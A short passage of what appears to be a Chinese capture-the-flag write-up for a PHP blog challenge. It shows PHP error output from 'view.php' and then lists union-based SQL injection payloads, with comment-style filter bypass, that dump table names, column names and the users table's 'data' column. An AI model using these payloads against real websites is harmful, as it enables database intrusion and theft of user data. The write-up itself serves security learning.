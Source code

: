 ```
</head>
<body>
<br />
<b>Notice</b>:  unserialize(): Error at offset 0 of 1 bytes in <b>/var/www/html/view.php</b> on line <b>31</b><br />
<div class="container">
    <table class="table">
        <tr>
            <th>
                username
            </th>
            <th>
                age
            </th>
            <th>
                blog
            </th>
        </tr>
        <tr>
            <td>
                2            </td>
            <td>
                <br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/view.php</b> on line <b>53</b><br />
            </td>
            <td>
                <br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/view.php</b> on line <b>56</b><br />
            </td>
        </tr>
    </table>

    <hr>
    <br><br><br><br><br>
    <p>the contents of his/her blog</p>
    <hr>
    <br />
<b>Fatal error</b>:  Call to a member function getBlogContents() on boolean in <b>/var/www/html/view.php</b> on line <b>67</b><br />
```

现在可以正常注入了

发现2处可以正常回显

那么有

```
#爆表
no=-1+union/**/select+1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database() 
#爆列
no=-1+union/**/select+1,group_concat(column_name),3,4 from information_schema.columns where table_schema=database()
#爆列data的内容
no=-1+union/**/select+1,group_concat(data),3,4 from users
```
